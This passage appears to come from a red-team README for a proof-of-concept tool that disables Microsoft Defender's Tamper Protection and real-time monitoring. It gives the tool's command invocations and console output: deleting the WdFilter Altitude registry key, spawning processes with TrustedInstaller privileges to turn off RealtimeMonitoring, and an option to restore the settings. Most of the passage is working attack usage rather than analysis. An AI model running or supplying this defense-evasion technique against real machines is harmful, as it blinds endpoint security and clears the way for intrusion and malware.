 3) Disable Defender / MDE components:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 3
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 000000000000011C
[!] Spawning registry with TrustedInstaller privileges to Disable 'RealtimeMonitoring' regkey.
[+] To disable other components of defender check source.
[+] Created process ID: 8040 and assigned additional token privileges.
```

*NOTE: Even though Tamper Protection is effectively disabled now, it takes a reboot to render the same change in the "Security Settings" GUI Prompt.*

The POC manages to semi-permanently disable Real-time protection (grey out) after Tamper Protection is disabled. This can be remediated using option 4.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020240311143923.png)

4) Optionally reinstate the WdFilter minidriver, TamperProtection and Defender Settings (Real-time protection) utilizing option 4. Make sure to change the Altitude number (Default: 328010) back to it's original value at line 530 in the POC.  

```
# Restart the computer to restore settings successfully
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 4
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Make sure to change Altitude in Source (Default: 328010) and reboot computer after execution.
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to Enable 'RealtimeMonitoring' regkey.
[+] Created process ID: 5852 and assigned additional token privileges.
[!] Spawning registry with TrustedInstaller privileges to Enable 'TamperProtection' regkey.
[+] Created process ID: 2744 and assigned additional token privileges.
[!] Spawning registry with TrustedInstaller privileges to restore WdFilter "Altitude" regkey.
[+] Created process ID: 7044 and assigned additional token privileges.
```
